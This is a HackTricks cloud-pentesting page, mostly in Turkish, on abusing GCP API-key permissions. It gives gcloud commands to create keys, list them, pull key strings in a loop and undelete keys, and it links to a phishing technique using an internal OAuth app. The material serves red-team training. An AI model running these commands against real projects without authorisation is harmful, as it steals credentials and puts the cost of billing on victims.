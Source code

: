 # GCP - Apikeys Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apikeys

Aşağıdaki izinler, API anahtarları oluşturmak ve çalmak için faydalıdır, belgelerden not alın: _Bir API anahtarı, **bir uygulamayı herhangi bir ilke olmadan tanımlayan** basit bir şifrelenmiş dizedir. Kamu verilerine **anonim olarak erişmek** için faydalıdırlar ve API isteklerini projenizle **ilişkilendirmek** için kullanılırlar, bu da kota ve **faturalama** içindir._

Bu nedenle, bir API anahtarı ile o şirketin API kullanımınız için ödeme yapmasını sağlayabilirsiniz, ancak yetkileri artırma imkanınız olmayacaktır.

API Anahtarları hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../gcp-services/gcp-api-keys-enum.md" %}
[gcp-api-keys-enum.md](../gcp-services/gcp-api-keys-enum.md)
{% endcontent-ref %}

API anahtarları oluşturmanın diğer yolları için kontrol edin:

{% content-ref url="gcp-serviceusage-privesc.md" %}
[gcp-serviceusage-privesc.md](gcp-serviceusage-privesc.md)
{% endcontent-ref %}

### Brute Force API Key access <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Proje içinde hangi API'lerin etkin olduğunu veya bulduğunuz API anahtarına uygulanan kısıtlamaları bilmediğiniz için, [**https://github.com/ozguralp/gmapsapiscanner**](https://github.com/ozguralp/gmapsapiscanner) aracını çalıştırmak ve **API anahtarı ile neye erişebileceğinizi kontrol etmek** ilginç olacaktır.

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Bu izin, **bir API anahtarı oluşturmayı** sağlar:
```bash
gcloud services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/b-apikeys.keys.create.sh).

{% hint style="danger" %}
Not edin ki, varsayılan olarak kullanıcıların yeni projeler oluşturma izinleri vardır ve yeni projede Owner rolü verilir. Bu nedenle bir kullanıcı **bir proje oluşturabilir ve bu projede bir API anahtarı oluşturabilir**.
{% endhint %}

### `apikeys.keys.getKeyString` , `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

Bu izinler **tüm apiKey'leri listeleme ve alma ile anahtarı alma** yetkisi verir:
```bash
for  key  in  $(gcloud services api-keys list --uri); do
gcloud services api-keys get-key-string "$key"
done
```
You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh).

### `apikeys.keys.undelete` , `apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

Bu izinler, **silinmiş api anahtarlarını listelemenize ve yeniden oluşturmanıza** olanak tanır. **API anahtarı,** **geri yükleme** işlemi tamamlandıktan sonra **çıktıda verilir:**
```bash
gcloud services api-keys list --show-deleted
gcloud services api-keys undelete <key-uid>
```
### Diğer çalışanları oltalamak için Dahili OAuth Uygulaması Oluşturun

Bunu nasıl yapacağınızı öğrenmek için aşağıdaki sayfayı kontrol edin, bu eylem **`clientauthconfig`** hizmetine aittir [belgelere göre](https://cloud.google.com/iap/docs/programmatic-oauth-clients#before-you-begin):

{% content-ref url="../../workspace-security/gws-google-platforms-phishing/" %}
[gws-google-platforms-phishing](../../workspace-security/gws-google-platforms-phishing/)
{% endcontent-ref %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
